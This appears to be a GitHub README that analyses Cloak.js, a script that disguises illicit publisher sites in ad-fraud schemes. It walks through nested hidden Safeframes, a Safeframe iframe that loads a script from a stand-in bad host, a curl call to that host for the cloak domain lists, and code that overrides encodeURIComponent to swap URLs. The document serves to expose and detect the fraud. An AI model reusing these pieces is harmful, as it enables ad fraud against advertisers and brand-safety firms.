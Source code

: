 ## How Cloak.js Works - Step By Step

Cloak.js is a sophisticated script that runs on illicit publisher websites - creating a series of frames, and rewriting browser functions so that ads are misled as to which website domain they are running on.

A diagram of the web framework of Cloak.js is as follows:

![Cloak Technical Diagram](https://docs.google.com/drawings/d/1tpHKLpWhPU5ghhkoj_CqBFezLwqSCrd5W7W3nS8IrgQ/pub?w=948&h=692)

[edit this drawing](https://docs.google.com/drawings/d/1tpHKLpWhPU5ghhkoj_CqBFezLwqSCrd5W7W3nS8IrgQ/edit)

**Step 1:  Illicit Publisher Sells Web Space**

Illicit Publishers sell their web space to an illicit ad network willing to buy their adspace.

**Step 2:  Illicit Ad Network Displays a Low Value Ad**

The illicit ad network displays an ad expected by the publisher (e.g. a gaming ad, or some other ad category that does not care about displaying on an illicit publisher).  Next to this ad (and invisible on the illicit publisher page), a Google [Safeframe](http://www.iab.com/guidelines/safeframe/) is created.  This is where the fraudulent activity begins.

The original ad script on the web page looks like this

```
<script src="//go.nasty.com/?id=423806"></script>
```

This script loads two frames.  The inner frame is set to refresh every 5 seconds, so that many ads appear in a single user visit.  

Here is an example of the "real ad:"

![cloak.js real ad](img/300x250.gif?raw=true)

**Step 3:  Cloaking Environment is Built**

Code is injected inside the Safeframe (please see [Notes on Safeframe](#Notes-on-Safeframe) for a more elaborate viewpoint on this).  This code retrieves two lists from the illicit ad network's servers:  

1. a list of publisher SSP accounts that are used to place supply into the Open RTB ecosystem; and
1. a list of premium website domains that will be used to mask the actual URL of the publisher page

Here is how to call the script that delivers these lists:

```
curl 'http://<bad_url>/b/373877463' -H 'Referer: http://tpc.googlesyndication.com/safeframe/1-0-1/html/container.html'
```

Here are some example cloaked URLs that are returned from this web request:

```
http://www.wikia.com
http://www.viralboom.com
http://www.wordfind.com
http://www.westernjournalism.com
http://www.washingtontimes.com
http://www.muscleandfitness.com
http://www.wowhead.com
http://www.babycenter.com
http://www.hometalk.com
http://www.freehealthnow.com
http://www.worldlifestyle.com
http://www.247sports.com
```

Here is the Google Safeframe invocation code:

```
<iframe name="1-0-1;118;<img width=&quot;1&quot; height=&quot;1&quot; id=&quot;spoint&quot; /><script src=&quot;http://<bad_url>/b/373877463&quot; type=&quot;text/javascript&quot;></script>" src="http://tpc.googlesyndication.com/safeframe/1-0-1/html/container.html" marginwidth="0" marginheight="0" scrolling="No" hspace="0" vspace="0" style="position: absolute; width:100%; height:100%;" sandbox="allow-same-origin allow-forms allow-pointer-lock allow-scripts" align="top" frameborder="0" height="100%"></iframe>
```


**Step 4:  Exchange Ads are Loaded**

Next, a series of 10 Safeframes are created inside of the initial Safeframe.  These are the frames that will be cloaked and will host a premium ad creative.  Ad code is injected into each frame, which performs two functions:

1. Rewrite key Javascript functions to make the environment appear to be a different website
1. Add publisher ad code to place an RTB request into an open exchange.  

Note that all 10 of these Safeframes cannot be seen when looking at the illicit publisher web page.  Therefore, nobody notices an out-of-place premium brand displaying on an illicit publisher.

**Step 5:  Ad Data is Modified with Cloaked Domain**

The advertiser ad tag calls a Javascript function to package their data to send back to their servers.  When it packages up the URL of the website domain to send back to its servers, the function to do this swaps the illicit URL with another well known url.

Here are the Javascript functions that are overridden by the Cloak script:

```
encodeURIComponent
escape
```

Here is some pseudo-code which can easily override these functions:

```
var oldEncode = window.encodeURIComponent;
window.encodeURIComponent = function(component){
  var alteredComponent = doSomethingWithComponent(component)
  oldEncode(alteredComponent)
}
```

Here is the code which actually swaps URLs when they are encoded:

```
function privateEncode(str,type)
{
  for(var match in mapping)
  {
    if(match.length > 0)
    {
      var re = new RegExp(match.trim(),"gi");
      //force string type
      str = "" + str;
      //str = str.toString();
      str = str.replace(re,mapping[match]);
      str = str.replace(match.trim(),mapping[match]);
    }
  }
  return privateFinish(type(str),type);
}

function privateFinish(str,type)
{
  for(var match in mapping)
  {
    if(match.length > 0)
    {
      var re = new RegExp(type(match.trim()),"ig");
      str = str.replace(re,mapping[match]);
      str = str.replace(type(match.trim()),mapping[match]);
    }
  }
  return str;
}
```

As an example, the bad url:

```
http://streamingsite.com/free-movie.com
```

is reported in advertiser and tracking beacons as `http://www.bikeforums.net/general-cycling-discussion/1038733-unicycling.html`, eg:

```
http://beacon.example.com/beacon.gif?ref=www.bikeforums.net%2Fgeneral-cycling-discussion%2F1038733-unicycling.html
```

Every digital advertising and brand safety company that we have tested use the modified functions to encode their URLs, and therefore report the incorrect URL to their clients.

**Step 6:  Cloak is Complete**

At this point, all subsequent activity in the advertising supply chain uses the cloaked URL above.  Any attempt to directly measure the URL will report the cloaked url.

Here is a link to the CLOAK.js source code:

[cloak.js](js/cloak.js)
